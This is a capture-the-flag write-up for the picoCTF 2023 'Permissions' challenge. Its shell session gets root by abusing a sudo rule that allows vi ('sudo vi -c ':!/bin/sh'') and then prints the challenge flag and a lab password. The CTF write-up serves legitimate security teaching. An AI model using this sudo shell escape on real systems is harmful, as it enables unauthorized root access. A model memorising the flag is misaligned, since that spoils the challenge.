 ## Descripción 
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
## Datos de Acceso al Nivel
user: carlosof
password:

## Solución
```bash
carlosof-picoctf@webshell:~$ ssh -p 58814 picoplayer@saturn.picoctf.net
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Sep 16 19:58:38 2024 from 3.140.102.47
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi -c ':!/bin/sh' /dev/null

# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# ls
# pwd
/home/picoplayer
# cd /
# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
# cd challenge
# ls
metadata.json
# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}", "username": "picoplayer", "password": "NBD+zO8s4y"}# 
```

## Notas Adicionales

## Referencias 
https://play.picoctf.org/practice/challenge/363
[Permissions | picoCTF 2023 Writeups (meghmistry.com)](https://picoctf2023.meghmistry.com/general-skills/permissions)